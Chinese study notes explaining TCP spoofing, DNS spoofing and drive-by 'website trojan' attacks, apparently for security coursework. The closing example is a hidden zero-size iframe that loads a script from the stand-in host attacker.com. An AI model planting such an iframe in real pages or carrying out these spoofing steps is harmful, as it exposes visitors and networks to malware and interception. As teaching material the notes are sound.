 - TCP欺骗

  TCP欺骗指攻击者 在伪造第三方IP的条件下，将数据加载到基于TCP协议传输的应用数据包中发送到目标主机，以实现使目标主机与第三方主机传输数据泄漏或者造成数据被破坏的攻击

  TCP协议中采用基于序列号的确认重传机制确保数据包传输可靠。TCP欺骗过程中，当攻击者冒充A主机与B主机建立TCP连接时，攻击者无法接受B主机返回给A主机的数据包，因而需要推断B主机第二次握手时产生的初始序列号来建立连接

  TCP初始序列号常用生成方法有三种，一种是64K规则，即在原有序列号上增加常量64000作为新的序列号；一种是依据时间生成序列号；另一种是直接用伪随机数作为序列号

  - 非盲攻击

    非盲攻击指B主机与攻击者在同一物理网络下，攻击者可利用网络嗅探技术获得B主机发送给A的数据包。非盲攻击分为5步

    1. 攻击者确定A主机离线或使用其它手段(DDoS、ARP欺骗等)使A无法正常接受B发送的数据包
    2. 攻击者使用A主机的IP地址向B主机发送第一次握手数据包
    3. B主机向A主机发送回应的第二次握手数据包，其中包含B主机产生的初始序列号，而此时A主机处于瘫痪状态无法正常接收并返回数据包，攻击者此时可利用网络嗅探技术获得该数据包，并得到其中的序列号
    4. 攻击者利用得到的序列号冒充A主机向B主机返回第三次握手数据包，至此TCP连接建立
    5. 连接建立后，攻击者便可以冒充A主机向B主机发送伪造的数据包了

  - 盲攻击

    盲攻击指B主机与攻击者不在同一物理网络的情况下，攻击者无法获得B主机发送给A主机的数据包

    盲攻击的步骤与非盲攻击相似，区别在第3步无法获得B主机返回的第二次握手数据包，需利用算法预测B主机生成的初始序列号以及第5步中无法获得B主机返回的数据包，无法进行双向通讯，因此盲攻击难度较大

    盲攻击过程中也可使用路由欺骗技术(ARP欺骗)将B返回的数据包路由到攻击者上以提高成功率

- DNS欺骗

  - 基于DNS服务器的欺骗

    基于DNS服务器的DNS欺骗对象为DNS服务器。攻击者先向目标DNS服务器发送域名地址查询请求，DNS服务器在没有该域名缓存的情况下会向高级DNS服务器发出请求，此时攻击者便可以伪造高级DNS服务器返回伪造的解析记录以此将伪造的解析记录存入目标DNS服务器，接下来用户向该DNS服务器查询该域名时便会返回攻击者伪造的IP地址了

  - 基于用户计算机的欺骗

    基于用户计算机的DNS欺骗对象为DNS服务器。攻击者可以利用目标计算机网络内感染ARP病毒的主机冒充网关拦截目标主机向外网的DNS服务器发出的DNS询问请求，并返回伪造数据而达到对目标主机的DNS欺骗的目的

### 诱骗式攻击

诱骗攻击指通过伪造合成的具有高迷惑性的信息，诱骗用户进行访问，从而诱导用户触发恶意代码或者骗取被攻击者的敏感信息，达到攻击者入侵系统获取敏感信息的目的

网络协议欺骗是攻击者利用网络协议设计的机制缺陷主动发起的攻击，而诱骗式攻击则利用社会工程中的欺骗技术诱骗用户实施攻击

- 网站挂马

  网站挂马是指网站中的网页被攻击者恶意修改后，添加了可以触发并下载恶意程序的链接以及恶意代码和脚本。当用户访问这些网站时，如果自身计算机的Web浏览器及插件中存在安全漏洞，那么这些安全漏洞就会被网页中的恶意代码和脚本进行利用，最终在用户不知情的情况下，使用户自动访问网页中的恶意链接甚至自动下载木马病毒

  - 框架挂马

    框架挂马利用网页中隐藏的iframe框架，在打开网页时打开对应的恶意网页或执行恶意脚本，是最早的一种有效挂马方式

    ```html
    <iframe src="http://attacker.com/attackScript.html" width=0 height=0></iframe>
    ```

    ```html
    <html>
     <script src="attrackScript.js" ></script>
    </html>
    ```
